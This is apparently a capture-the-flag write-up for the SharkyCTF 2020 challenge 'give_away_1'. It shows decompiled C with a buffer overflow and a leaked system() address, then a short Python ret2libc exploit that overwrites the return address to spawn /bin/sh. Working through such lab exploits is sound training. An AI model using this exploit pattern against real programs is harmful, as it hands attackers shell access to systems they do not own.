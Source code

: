 
## give_away_1
### Description

> Make good use of this gracious give away.
>
> Creator: Hackhim

### Attachment

[give_away_1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_1/give_away_1)
, 
[libc.so.6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/give_away_1/libc.so.6)


### Analysis

Another warm up task

```c
int main(int argc, const char **argv, const char **envp){
  init_buffering(&argc);
  printf("Give away: %p\n", &system);
  vuln();
  return 0;
}
char *vuln(){
  char s; 
  return fgets(&s, 50, stdin);
}
```

> buffer overflow, `system` in libc leaked, 32bit elf

### Solution

ret2libc

```python
ru('Give away: ')
system = eval(rc(10))
libcbase = system - libc.sym['system']
binsh  = libcbase + libc.search('/bin/sh').next()
# ret2libc
offset = 36
payload = 'A'*offset
payload += p32(system) + p32(0) + p32(binsh)
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/give_away_1) 



